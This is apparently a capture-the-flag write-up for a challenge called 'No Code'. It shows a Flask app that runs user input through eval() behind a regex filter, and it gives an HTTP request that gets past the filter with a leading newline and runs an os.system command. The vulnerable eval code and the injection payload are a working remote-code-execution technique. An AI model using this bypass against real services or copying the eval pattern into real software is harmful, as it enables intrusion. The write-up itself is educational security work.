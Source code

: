 # No Code
> I made a web app that lets you run any code you want. Just kidding!

## About the Challenge
We got a website and also a Python code. Here is the content of `app.py`

```python
from flask import Flask, request, jsonify
import re

app = Flask(__name__)

@app.route('/execute', methods=['POST'])
def execute_code():
    code = request.form.get('code', '')
    if re.match(".*[\x20-\x7E]+.*", code):
        return jsonify({"output": "jk lmao no code"}), 403
    result = ""
    try:
        result = eval(code)
    except Exception as e:
        result = str(e)

    return jsonify({"output": result}), 200

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=1337, debug=False)
```

In this case, we can execute a Python code but there's a regex here `.*[\x20-\x7E]+.*` (matches any string that has at least one printable ASCII character) so basically we "cant" input anything here

## How to Solve?
We can bypass it using a new line (\n) to execute a Python code. Here is the example

```
POST /execute HTTP/1.1
Host: uoftctf-no-code.chals.io
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

code=
__import__("os").system("ls")
```

> Since I can't access the website again, I will leave this writeup without the actual flag

## Flag
```
-
```